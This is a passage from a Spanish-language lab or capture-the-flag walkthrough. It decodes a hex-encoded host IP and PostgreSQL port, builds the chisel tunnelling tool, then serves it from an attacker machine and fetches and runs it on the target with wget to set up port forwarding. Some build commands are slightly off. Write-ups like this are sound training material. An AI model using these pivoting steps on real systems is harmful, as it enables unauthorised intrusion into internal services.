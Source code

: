 ```bash
echo "$((0xAC)).$((0x16)).$((0x00)).$((0x01))"
```

Resultado:

```bash
172.22.0.1
```

Explicación: convertimos la IP de hexadecimal a decimal y vemos que esta es la de la máquina host


Acción:

```bash
echo "$((0x1538))"
```

Resultado:

```bash
5432
```

Explicación: ahora probamos con la parte de los puertos y vemos que corresponde con el puerto `5432` propio de PostgreSQL ( *Enumeración de puertos y servicios* )

### Paso 4

Acción:

```bash
wget https://github.com/jpillora/chisel
go build -ldflags "-s -w" .
```

Resultado:

```bash
chisel 
```

- `-s`: omite la tabla de símbolos (debug symbols).
    
- `-w`: omite el _DWARF_ debug info, que es usada por los depuradores.

Con `du -hc chise` comprobaríamos el tamaño del archivo y con `upx chisel` lo reduciríamos aún más su tamaño sin llegar a afectar al archivo

**Resultado:** binario más pequeño y ligero (ideal para despliegue, especialmente en pentesting o cuando necesitas cargar binarios por red).

Explicación: necesitamos hacer 'Port Forwarding' y tunelizar, ya que no tenemos otra vía, y tenemos las credenciales vistas anteriormente

Acción:

```bash
python3 -m http.server 80
-
cd /tmp
wget http://10.10.16.2/chisel
chmod +x chisel
./chisel
```
